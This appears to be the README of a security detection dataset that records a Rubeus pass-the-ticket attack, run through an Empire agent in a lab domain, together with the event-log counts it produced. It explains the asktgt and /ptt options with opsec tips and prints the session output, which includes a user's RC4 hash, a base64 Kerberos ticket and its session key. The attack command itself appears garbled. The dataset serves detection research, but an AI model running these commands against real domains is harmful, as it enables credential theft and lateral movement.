 
# Empire Rubeus PTT

The asktgt action will build raw AS-REQ (TGT request) traffic for the specified user and encryption key (/rc4, /aes128, /aes256, or /des). A /password flag can also be used instead of a hash - in this case /enctype:X will default to RC4 for the exchange, with des|aes128|aes256 as options. If no /domain is specified, the computer's current domain is extracted, and if no /dc is specified the same is done for the system's current domain controller. If authentication is successful, the resulting AS-REP is parsed and the KRB-CRED (a .kirbi, which includes the user's TGT) is output as a base64 blob. The /ptt flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session. The /luid:0xA.. flag will apply the ticket to the specified logon session ID (elevation needed) instead of the current logon session.

Note that no elevated privileges are needed on the host to request TGTs or apply them to the current logon session, just the correct hash for the target user. Also, another opsec note: only one TGT can be applied at a time to the current logon session, so the previous TGT is wiped when the new ticket is applied when using the /ptt option. A workaround is to use the /createnetonly:C:\X.exe parameter (which hides the process by default unless the /show flag is specified), or request the ticket and apply it to another logon session with ptt /luid:0xA..

## Technique(s) ID

T1097

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## dataset

[empire_rubeus_asktgt_ptt_createnetonly.tar.gz](./empire_rubeus_asktgt_ptt_createnetonly.tar.gz)

## Nnetwork Environment

Shire

## Time Taken

2019-03-19151006

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             537 |
| System                                   | Service State Event                                    |               9 |
| Security                                 | Filtering Platform Connection                          |             378 |
| Security                                 | Token Right Adjusted Events                            |             273 |
| Security                                 | Other Policy Change Events                             |             234 |
| Security                                 | User Account Management                                |             216 |
| Security                                 | Group Membership                                       |              22 |
| Security                                 | Logon                                                  |              22 |
| Security                                 | Special Logon                                          |              19 |
| Security                                 | Process Creation                                       |              18 |
| Security                                 | Sensitive Privilege Use                                |              15 |
| Security                                 | Logoff                                                 |              13 |
| Security                                 | Detailed File Share                                    |              10 |
| Security                                 | Authorization Policy Change                            |               8 |
| Security                                 | Process Termination                                    |               8 |
| Security                                 | File Share                                             |               4 |
| Security                                 | Kerberos Authentication Service                        |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Security System Extension                              |               1 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             525 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             503 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             235 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |             186 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              44 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              26 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |              12 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              11 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |              10 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             448 |

## Empire Activity

```
(Empire: G6BYHU4F) > 
c4:b415baa073a14f81f8c89a2a384f4a68 /createnetonly:C:\Windows\System32\cmd.exe
[*] Tasked G6BYHU4F to run TASK_SHELL
[*] Agent G6BYHU4F tasked with task ID 5.5.exe asktgt /user:Mmidge /d 
(Empire: G6BYHU4F) > ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.4.2 


[*] Action: Create Process (/netonly)

[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 8148
[+] LUID            : 0x53b3d71

[*] Action: Ask TGT

[*] Using rc4_hmac hash: b415baa073a14f81f8c89a2a384f4a68
[*] Target LUID : 87768433
[*] Using domain controller: HFDC01.shire.com (172.18.39.5)
[*] Building AS-REQ (w/ preauth) for: 'shire.com\Mmidge'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE5DCCBOCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+KADAgEFoQsbCVNISVJFLkNPTaIeMBygAwIB
      AqEVMBMbBmtyYnRndBsJc2hpcmUuY29to4IDwjCCA76gAwIBEqEDAgECooIDsASCA6yEK7banoUxPpUq
      EoMNXT5YSlapCf/5ejnJ9j73z2CC1V54tAWP6wWOUkw1o5EWzeYqywcEhXsQVW/zC0fUk9f05GnMTINY
      fK1yBdXTeUK2EL53Fq7CJkhKQdFxuNe80oROsp55hO9l4YwtHyNT6hxMuvcOO24dgB/1esaQJd0IqwRM
      wICi6t/RS9Ac7PKOzXIyojGvTFI/zneR55Z0g7x+CJWN6FUO5zWG8QrCt2wAcWvvv0TusvK2Zkd3JHJ1
      pTpSf6WlGK8EH5aExqTUAznFynXebqBPdmvgSkkJf6U/Z/Dy7U6KIojujr9/vyhdLUzAtVfyc3tUGZQS
      n63UXkEVbadKNZ5m/SFr3cwNEeG9hyvyisfJMhm49fVDdEVbHrXrZfNZN5a1cqbbSkJezII0AgV9rP9J
      PUgE8FMbfBL1gwyPZDu1PgYO0UuxJMQg4Kb1JIBjOsCx2Q9yuKXPM9wKccF4ys0qYxw5kzV/ujZIgvAS
      XJwzlFSegjprZxljUzI5k9LDnFz7RXATScg0un0KUCHuSFsnvhHAbxe12xbEYWDG3vVu3k7uN2kkoUcb
      xbGq2kcu/ayDJc50uSIXxwR87n1Cqt6wtydk79460C8EKwONd8VT8cbmuwlQQvQ4uz1eeS0D4TOshOlx
      wm/dG4CZ/asRDkKu2iZWi5tBrMS2lSPxP5QLvbiYdBhIcbZrrjtFjJ9O2cxhYolj+sE01cbQx3HKR9mm
      rx8k5buBdLyWIWy9RzkRPytqiWYdXyNmfdkVFUNI/YoP39mJX+Pu07eS76F72VEzie+c24o9YRe/1Ma6
      FOZYNXypbgswOz6vVTKX9ItSp6nUHhDwJ5YH+QJsu3HcNqcUBCi5fwDCHkaXXx+YwJLNohuckQaDa2L/
      NlZM7ZL+Q5GSZ27NCYlPsvmTNmGN/gVYKMJqJor2BF7KdS/Cg6w76tm+4nOCe8pCEG3pfOofLAeNGFNk
      QGhGwyqb9G3Lx9MhLyrBhkJtmol3FKd8dm/7r/g9bKndVGejwa0DdsxesNCzOhZCpL2rChz5+ty2vvKi
      FQi+iuAqKR9ANqaZ2VJx8qGsmOi+Qr7rEo0dm9rVIrOwa96CCFjWIUzDbN0goMuaRaMcv8zp4NRmfSUQ
      Hsoiymm8U7yjh3JuURc7AEbQFrACIiDiBvLP8pZca483tchXlkXy+haf0vpc+t+W3IeXwI3PQOjGwTnC
      wbjaT5LGn4uc5rIQuN4QQt/+1T7xJhYvA7NMnyqho4HLMIHIoAMCAQCigcAEgb19gbowgbeggbQwgbEw
      ga6gGzAZoAMCARehEgQQfcfUVG4dvCBEsY+L2tRNMaELGwlTSElSRS5DT02iEzARoAMCAQGhCjAIGwZN
      bWlkZ2WjBwMFAEDhAAClERgPMjAxOTAzMTkxOTEzMjRaphEYDzIwMTkwMzIwMDUxMzI0WqcRGA8yMDE5
      MDMyNjE5MTMyNFqoCxsJU0hJUkUuQ09NqR4wHKADAgECoRUwExsGa3JidGd0GwlzaGlyZS5jb20=

[*] Action: Import Ticket
[*] Target LUID: 0x53b3d71
[+] Ticket successfully imported!

[*] Action: Describe Ticket

  UserName              :  Mmidge
  UserRealm             :  SHIRE.COM
  ServiceName           :  krbtgt/shire.com
  ServiceRealm          :  SHIRE.COM
  StartTime             :  3/19/2019 2:13:24 PM
  EndTime               :  3/20/2019 12:13:24 AM
  RenewTill             :  3/26/2019 2:13:24 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  fcfUVG4dvCBEsY+L2tRNMQ==


..Command execution completed.

(Empire: G6BYHU4F) >
```
